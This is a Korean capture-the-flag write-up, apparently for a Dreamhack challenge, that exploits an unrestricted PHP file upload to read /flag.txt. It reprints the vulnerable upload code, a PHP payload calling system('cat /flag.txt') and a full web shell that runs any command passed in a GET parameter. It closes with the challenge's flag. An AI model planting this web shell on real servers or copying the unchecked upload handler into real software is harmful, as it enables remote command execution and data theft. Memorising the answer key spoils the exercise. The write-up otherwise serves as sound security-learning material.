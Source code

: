 
문제는 **php로 작성된 파일 저장 서비스입니다. 파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 /flag.txt에 있습니다.** 입니다.

이번 문제 코드는 php 이다.

### index.php

**index.php** 는 `/` 부분에서 랜더링하는 일반적인 html 의 파일이다.  
아래에 있는 이미지가 index.php로 만든 사이트이다.  

<img src="6.jpg">  

코드는 풀이에 필요없어서 생략  

### list.php

코드는 php 부분만 입력

```php
    <?php
        $directory = './uploads/';
        $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?> 
```

**list.php** 는 `/list` 부분에서 사용자가 **업로드한 파일**을 보여주는 곳이다.  

<img src="8.jpg">  

위의 이미지는 **test.php**를 만들어서 임시로 올린 상황이다.  
파란 글씨의 파일 이름을 누르면, 그 파일 내용을 볼 수 있다.  

./uploads 에 있는 파일들을 찾는데, 제목에 `'..', '.', 'index.html'` 가 있다면, 제외하고, 나머지 파일은 list에 파일 이름을 출력하고, 그 이름에 파일이 있는 곳으로 하이퍼링크를 설정한다.

### upload.php

코드는 php 부분만 입력

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

이 코드는, 만약 **POST 방식이면(파일을 업로드 할 때)**, **./uploads** 에 업로드한 파일을 **저장**하고, **오류 여부**와 파일 저장을 성공했다면, **어디에 저장했는지** 알려준다.

# 첫 번째 풀이(system(cat /flag.txt) 사용)

여기서 저희는 /flag.txt 를 찾는 것이기 때문에, 그냥 **cat /flag.txt** 를 하면 된다.(/flag.txt -> 루트에 있는 flag.txt 파일)

```php
<?php
	system("cat /flag.txt");
?>
```

다음과 같이 코드를 작성하고,

<img src="4.jpg">  

파일을 업로드하고, list에서 그 파일에 들어가면

<img src="5.jpg">  

다음과 같이 flag 가 나온다.  

# 두 번째 풀이(드림핵 풀이, 웹 셸)

또 다른 방법으로 웹 셸을 업로드하는 방법이 있다.  

php로 웹 셸을 만드는 방법을 몰라서, 드림핵에서 제시한 예시 코드의 출처에서 웹 셸 코드를 가져왔다.(https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)  

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

다음과 같이 웹 셸을 업로드하고, 실행하면 웹 셸을 띄울 수 있다.  

<img src="9.jpg">  

아래의 이미지는 `ls -al`을 입력한 예시이다.  

<img src="10.jpg">  

그리고 여기서 `cat /flag.txt` 를 통해 flag를 얻을 수 있다.(아니면 `cd .. ; ls -al` 을 통해 상위 폴더에서 flag.txt를 찾을 수 있다. 실제 위치는 `cat ../../../../flag.txt` 이다.)  

<img src="11.jpg">  

따라서 답은 **DH{c29f44ea17b29d8b76001f32e8997bab}** 입니다.